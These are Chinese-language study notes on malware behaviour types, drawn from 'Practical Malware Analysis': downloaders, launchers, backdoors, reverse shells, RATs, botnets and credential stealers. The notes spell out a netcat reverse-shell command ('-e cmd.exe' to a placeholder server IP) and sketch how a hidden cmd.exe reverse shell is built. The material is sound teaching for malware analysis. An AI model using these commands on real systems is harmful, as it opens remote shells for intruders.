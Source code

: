 # 恶意代码分析实战——恶意代码行为分析

声明：本文参考了《恶意代码分析实战》

熟悉恶意代码的功能有助于提取恶意代码的行为特征。

下面介绍了几种常见的恶意代码类型及其功能：
- Downloader
- Bootloader
- Backdoor
- LogginSnipper

## Downloader（下载器）和 Bootloader（启动器）

顾名思义，下载器从互联网上下载恶意代码到本地，并经过启动器安装和执行。下载器通常与某段漏洞利用程序（exploit）打包在一起，在漏洞利用成功后启动。Windows 下载器通常借助微软 Windows API 函数：URLDownloadtoFileA 和 WinExec，来下载并运行新的恶意代码。

## Backdoor（后门）

后门程序提供了非法访问远程主机的接口，后门可以包含很多组件，形成完整的渗透工具组合。后门程序通常会利用80等常用端口进行通信，起到掩人耳目的作用。

### 反向 shell

反向 shell 是从被感染主机发起的有较高执行权限的远程连接，它主动连接到攻击者电脑。

下面列举几个反向shell的例子：

#### netcat反向shell

例如：netcat可以使用命令```netcat -l -p 80```建立一个反向 shell，监听80端口的连接。而连接这个监听服务的命令为```netcat 服务器ip 80 -e cmd.exe```。

#### Windows反向shell

可以使用cmd.exe作为Windows系统中的反向shell，有两种简单实现：
- 基础方法
  - 创建一个套接字与远程主机相连，然后绑定这个套接字与cmd.exe标准流。
  - 使用CreateProcess函数用隐藏窗口方式创建cmd.exe，对被攻击者隐藏该进程。
- 多线程方法
  - 需要使用套接字、两个以上管道、两个以上线程。
  - 要用到CreateThread、CreatePipe

#### Remote Access Tool(RAT)

这类工具中比较有名的是Poison Ivy 。它是一个免费的远程访问工具。

#### Botnet（僵尸网络）

僵尸网络通常由单一实体控制，由成百上千的被控主机组成。主要用于发动DDoS攻击。Botnet与RAT相比规模更大。

## 登录凭证窃密器（LogginSnipper）

主要有3类：
- 监听用户登录过程的程序
- 转储Windows系统存放信息的程序
- 键盘记录程序
